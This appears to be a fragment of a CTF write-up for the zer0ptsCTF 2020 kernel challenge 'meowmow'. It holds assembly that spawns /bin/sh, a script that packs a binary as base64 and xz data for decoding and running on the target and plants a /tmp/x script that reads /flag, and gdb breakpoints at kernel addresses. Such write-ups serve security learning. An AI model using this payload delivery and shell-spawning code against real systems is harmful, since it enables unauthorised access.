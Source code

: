 ```assembler  

execve:  
	mov rax, SYS_execve  
	syscall  
	ret

shell:  
	lea rdi, [rip + sh]  
	xor esi, esi  
	xor edx, edx  
	jmp execve  
sh:  
	.asciz "/bin/sh"

userloop:  
	jmp userloop  
```

### cook.sh

```sh  
#!/bin/sh  
make || exit 1

echo 'echo "#!/bin/sh" > /tmp/x'  
echo 'echo "cat /flag > /dev/ttyS0" >> /tmp/x'  
echo 'chmod +x /tmp/x'

echo 'cd /tmp; base64 -d <<EOF | xz -d > a && chmod +x a && ./a'  
XZ_DEFAULTS= xz -T09 < main | base64  
echo 'EOF'  
```

### gdbinit

```  
b *0xffffffffc0000123 - 0x30  
commands  
	printf "[+] note: %016llx\n", $rax  
end

b *0xffffffff814105f6  
commands  
	printf "[+] tty: %016llx\n", $rax  
end  
```

Original writeup
(https://github.com/TFNS/writeups/blob/master/2020-03-07-zer0ptsCTF/meowmow/README.md).